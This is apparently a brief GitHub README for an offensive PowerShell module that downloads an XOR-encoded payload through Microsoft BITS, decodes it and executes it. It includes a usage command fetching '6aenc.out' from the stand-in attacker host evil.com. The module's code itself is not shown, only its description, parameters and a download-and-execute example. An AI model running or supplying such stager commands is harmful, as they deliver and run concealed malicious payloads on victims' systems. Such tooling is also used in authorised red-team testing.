 # Invoke-DownloadXORandRun
This module downloads an XOR encoded payload via Microsoft BITS, decodes and runs it.

## Quick Start Guide
There are currently two parameters: 


**pURL** 
The remote path of the single-byte encoded file

**XOREncodeKey**
The value of the XOR Encoding

```PowerShell
Invoke-DownloadXORandRun -pURL http://evil.com/6aenc.out -XorEncodeKey 6A
```

